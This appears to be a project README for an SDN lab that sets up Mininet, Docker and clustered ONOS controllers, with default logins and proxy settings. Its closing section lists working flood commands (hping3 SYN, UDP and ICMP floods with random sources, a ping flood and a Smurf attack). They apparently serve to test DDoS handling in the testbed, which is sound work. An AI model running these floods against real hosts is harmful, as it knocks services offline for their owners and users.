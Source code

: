 ## Installing Mininet
* sudo apt-get install mininet

## Installing Docker
* sudo apt-get purge docker docker-engine docker.io
* sudo apt-get update
* sudo apt-get install apt-transport-https ca-certificates curl software-properties-common
* curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
* sudo apt-key fingerprint 0EBFCD88
* Verify that you now have the key with the fingerprint.
* sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable"
* sudo apt-get update
* sudo apt-get install docker-ce

## Configuring Proxy in docker
* mkdir -p /etc/systemd/system/docker.service.d
* sudo gedit /etc/systemd/system/docker.service.d/http-proxy.conf
* Enter following in file:<br>
```
[Service]<br>
Environment="HTTP_PROXY=http://edcguest:edcguest@172.31.52.51:3128/"
```
* sudo gedit /etc/systemd/system/docker.service.d/https-proxy.conf
* Enter following in file:<br>
```
[Service]<br>
Environment="HTTPS_PROXY=https://edcguest:edcguest@172.31.52.51:3128/"
```
* sudo systemctl daemon-reload
* sudo systemctl restart docker
* open new terminal and verify that proxy is set by typing <br> *sudo systemctl show --property=Environment docker*
* docker run hello-world
## Downloading onos
* docker pull onosproject/onos:1.11.1
* sudo docker images (verify)
## Installing other requirements
* sudo apt-get purge python-pip
* wget https://bootstrap.pypa.io/get-pip.py
* python get-pip.py
* sudo pip install networkx
* sudo pip install paramiko

## Running onos instances
* sudo docker run -t -d --name onos1 onosproject/onos:1.11.1<br>
 * sudo docker run -t -d --name onos2 onosproject/onos:1.11.1<br>
* sudo docker run -t -d --name onos3 onosproject/onos:1.11.1<br>
## Docker IPs
* 172.17.0.2
* 172.17.0.3 and so on (based on number of instances)
## SSH inside the ONOS
* ssh -p 8101 karaf@172.17.0.2
* password : **karaf**
## Activating apps inside ONOS
* app activate org.onosproject.openflow
* app activate org.onosproject.fwd
## Accessing the GUI 
* Go to http://172.17.0.2:8181/onos/ui/index.html
* username : **onos**
* password : **rocks**
## Wiping out ONOS
* wipe-out please (clears the nodes)
## Stopping already running instances
* docker stop onos1 onos2 onos3
## Removing old containers
* docker rm onos1 onos2 onos3
## Forming cluster
* ./onos-form-cluster -u karaf -p karaf 172.17.0.2 172.17.0.3 172.17.0.4
## using standard mininet topologies
* sudo mn --controller=remote,ip=172.17.0.2,port=6653 --topo=[ linear|minimal|reversed|single|torus|tree ],10 
## cleaning mininet
* sudo mn -c
## DDOS Attacks
+ ### SYN Flood
```
sudo hping3 --rand-source –S –L 0 –p 80 <target IP>
```
+ ### UDP Flood
```
sudo hping3 --rand-source -–udp -p 53 <target IP> --flood
```
+ ### ICMP Flood
```
sudo hping3 --icmp --rand-source <target IP> --flood
```
+ ### Ping Flood
```
sudo ping -f -s 65500 <Target IP>
```
+ ### Smurf Attack
```
sudo hping3 -1 --flood -a <Victim IP> <Broadcast IP>
```
## Other contributors
* [Chaitanya kumar](https://github.com/ckumar2398)
* [Aditya Choudary](https://github.com/adityachd123)
* [Kapil Dev](https://github.com/kapilDev1)
* [Ayushi Sharma](https://www.google.com)
